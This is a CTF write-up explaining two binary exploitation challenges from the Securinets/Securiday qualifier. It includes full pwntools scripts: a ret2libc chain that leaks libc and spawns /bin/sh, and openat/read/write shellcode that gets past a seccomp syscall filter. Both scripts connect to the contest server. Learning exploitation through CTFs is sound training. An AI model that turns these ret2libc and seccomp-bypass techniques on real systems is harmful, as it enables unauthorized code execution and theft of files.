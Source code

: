 # Securiday Quals

[Securiday](https://www.facebook.com/Securiday-104756755537130/) qualifiation round, hosted by [Securinets](https://www.facebook.com/Securinets), a 24 hour CTF. Top #10 teams will be able to compete in Securiday CTF.<br/>
I've participated in the CTF as a member of Enthousiast team. We ranked 22 out of 295 teams internationally & 1st team in Tunisia.<br />
I'll be sharing a writeup for the Binary Exploitation challenges.

<br/>
<hr>

* ### Welcm

For this one, we get a binary & a libc, what a time saver.

As a start, we'll check the security of the binary.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec.png"><br/>
</p>
<br />

Now, let's check the binary in Ghidra:
<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/welcm.png"><br/>
</p>
<br />

A basic ret2libc, we check ropper for a `pop rdi` gadget:

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/pop_rdi.png"><br/>
</p>
<br />

Now, let's head to GDB, we check the functions we have ( `info functions` )

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb.png"><br/>
</p>
<br />

No tricks I see, We have everything we'll need.

As a start, we'll need to leak a libc address from the GOT entry. Since we have `puts` available in the binary, we can use it to leak our address. After that, we'll be able to calculate the libc base address. Therefore, we'll be able to find `system` address in memory alongside our `/bin/sh` string.

Summary:

1. Return to `puts`, giving it it's own GOT entry address as a parameter.
2. Find libc base address.
3. Return to `system` giving it `/bin/sh` as parameter.

Considering Ghidra's output, we have 128 bytes for our input + 8 bytes for the RBP, which gives us a total of 136 bytes for the RIP offset. We can start writing our payload.

<details>
  <summary>Show payload</summary>
  
  ```python
  #!/usr/bin/env python3

  from pwn import *

  exe = ELF("./welc_patched")
  libc = ELF("./libc.so.6", checksec=False)

  context.binary = exe
  LOCAL = False


  def conn():
      if LOCAL:
          r = process([exe.path])
      else:
          r = remote("20.216.39.14", 1237)

      return r


  def main():
      r = conn()

      PUTS_PLT = p64(0x0000000000401060)
      PUTS_GOT = p64(0x404018)
      POP_RDI  = p64(0x0000000000401283)
      MAIN     = p64(0x00000000004011db)
      MAIN_RET = p64(0x000000000040121e)

      offset = 136

      # First stage
      # Leak puts address & return to main for stage 2
      payload = b"A"*offset
      payload += POP_RDI
      payload += PUTS_GOT
      payload += PUTS_PLT
      payload += MAIN

      print(payload)

      r.sendline(payload)

      r.recvuntil(b'about you ?\n')
      leak_puts = u64(r.readline()[:-1].ljust(8, b'\x00'))
      base_libc = leak_puts - libc.sym['puts'] # Libc base

      print('Leaked libc           :', hex(leak_puts))
      print('Libc base             :', hex(base_libc))

      SYSTEM = p64(libc.sym['system'] + base_libc)
      BIN    = p64(next(libc.search(b'/bin/sh')) + base_libc)

      # Stage 2, System("/bin/sh")
      payload = b"A"*offset
      payload += MAIN_RET # Alignement
      payload += POP_RDI
      payload += BIN
      payload += SYSTEM

      r.sendline(payload)

      r.interactive()


  if __name__ == "__main__":
      main()
  ```
</details>

And we get our flag: `Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}`


* ### shellcraft

For this one, we were given a binary file. Considering the name, we'll probably be sending a shell. As a start, we check the binary's security & have a look throught Ghidra.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/sec2.png"><img src="/2022/Securinets%20CTF%20Quals/imgs/ghidra2.png"><br/>
</p>
<br />

Intersting... It's not just an executable stack, but we got our call ready since the begining. But there is this `sandbox` function, digging more into it gives us the following C code:

```C
  local_18 = seccomp_init(0x7fff0000);
  local_38[0] = 2;
  local_38[1] = 0x38;
  local_38[2] = 0x39;
  local_38[3] = 0x3a;
  local_38[4] = 0x3b;
  local_38[5] = 0x65;
  local_38[6] = 0x142;
  for (local_c = 0; local_c < 7; local_c = local_c + 1) {
    seccomp_rule_add(local_18,0,local_38[(int)local_c],0);
  }
  seccomp_load(local_18);
```

So it's google time! Looking for this `seccomp_rule_add` landed me on this [description](https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html#DESCRIPTION). As we can see, this is somekind of a syscall filtering. Let's jump into GDB for more debuging... Open binary, setup a breakpoint at main+77, before we start executing our shell.

<p align="center">
  <img src="/2022/Securinets%20CTF%20Quals/imgs/gdb2.png"><br/>
</p>
<br />

We take a shellcode ([Shell storm](http://shell-storm.org/)) & plug it into our binary's input then watch what happens.<br/>
We hit the breakpoint (`0x55555555530d <main+77>:	call   rdx`) & we step into the execution.

So in my case, the shell changed `rax` value to `0x142` which is `stub_execveat` code. If you're unfamiliar with the `syscall` instruction, basically it's a way for the binary to make **system calls** to the kernel to execute a specific function. Each function have it's own code ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)), we use this code to identify which function we would like to call. We simply change the `rax` register to the function code we're seeking & set up our parameters for the function call then we use `syscall` instruction to execute it. Back to the topic, after changing the `rax` value & when we are about to make the system call, we get a crash: `Program terminated with signal SIGSYS, Bad system call.`

So as expected, we can see that the `0x142` is included in our `sandbox` code so, as we mentioned, this is a system call filter. 

So we'll need to find an other way to reach our flag without using the blacklisted syscalls, we can use `seccomp-tools` to get a better view for the blacklisted calls:

```
─$ seccomp-tools dump ./shellcraft  
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0013
 0006: 0x15 0x06 0x00 0x00000038  if (A == clone) goto 0013
 0007: 0x15 0x05 0x00 0x00000039  if (A == fork) goto 0013
 0008: 0x15 0x04 0x00 0x0000003a  if (A == vfork) goto 0013
 0009: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0013
 0010: 0x15 0x02 0x00 0x00000065  if (A == ptrace) goto 0013
 0011: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

So, this is the first time I've come across this kind of challenge. After some digging up, I landed on a writeup which included a similar situation. The solution is writing your own assembly! Let's recheck our sys call list ([SysCall functions list](http://shell-storm.org/shellcode/files/linux-4.7-syscalls-x64.html)). We still have `read` & `write` calls authorized, if we dig more, we'll land on `sys_openat`. This function is similar to `open`, except that we can provide a reference directory. Looking up this function ([ref](https://linux.die.net/man/2/openat)), we can either provide an absolute path to our flag file OR we can play around with the `AT_FDCWD` value. Considering the first challenge, the flag path is `/home/ctf/flag.txt`, so if we can do the following call: `openat(NULL, "/home/ctf/flag.txt", O_RDONLY)`, we'll open our flag file & get a file descriptor for it. How can we use this?

We'll have to write something like this:

```C
f = openat(NULL, "/home/ctf/flag.txt", O_RDONLY); // Open our flag file.
read(f, our_adr, 0x50); // This size should be enough to read the flag.
write(1, our_adr); // Write flag to STDOUT.
```

<br/>
If you can read assembly code, you can skip these paragraphs since I'll be mainly explaining that code.

As a start, we'll set our RAX to 0x101, which is `sys_openat` code. Then we'll need to set both RDI & RDX to 0 (equivalent to NULL) & finally we'll need to make RSI point to `/home/ctf/flag.txt` in the stack. If you're unfamiliar with calling convention for 64 bit architecture, RDI is used for passing the first argument, RSI for the second, RDX for the third. Now, how can we get RSI to point to our flag path? Heading back to GDB, we have our shell code address saved in RAX register & it's executing a `call rdx` to execute our shell, therefore, we can use this information before making any sys calls. We can move RAX value to RSI, add our payload's length to RSI & make sure to have our `/home/ctf/flag.txt` at the end of our payload. After that, we'll be able to make our syscall & we'll get the file descriptor in RAX.

After that, we'll need to execute our `read` function. For that, we can use the same address pointed by RSI since we no longer need it & it's a writeable area. We'll also need to move RAX value (file descriptor) to RSI (first argument). And finally, we'll set RAX to 0 for the `read` sys call & RDX to 0x50 for the buffer size. Then execute our syscall.

And the final part of the payload, we'll keep RSI untouched since it points to our flag, we'll change RAX to 1 (`write` sys call) & then set RDI to 1 (STDOUT file descriptor). We can do our sys call now.

After finishing our payload, we'll end up with a 62 bytes assembly code. We head back to the first stage & add 62 to RSI value to make it point at the end of our payload ;)

And the magic happens: `Securinets{56000a2e8205998dd69d74c30d6b1daca2863e66184c088b}`

Payload:

```python
from pwn import *


context.binary = './shellcraft'

# NOPs are not really needed here, we can get rid of them but we'll have to update RSI value
shellcode = b"\x90" * 5 + asm('''

    mov rsi, rdx
    add rsi, 62
    mov rax, 0x101
    xor rdi, rdi
    xor rdx, rdx
    syscall
    
    mov rdi, rax
    mov rax, 0
    mov rdx, 0x50
    syscall
    
    mov rax, 1
    mov rdi, 1
    syscall

        ''')

payload = shellcode+b"/home/ctf/flag.txt\x00"

#p = process('./shellcraft')
p = remote('20.216.39.14', 1236)

print('Shellcode length    :', len(shellcode))
print('Payload             :', payload)

p.sendline(payload)

p.interactive()
```

* ### FTP

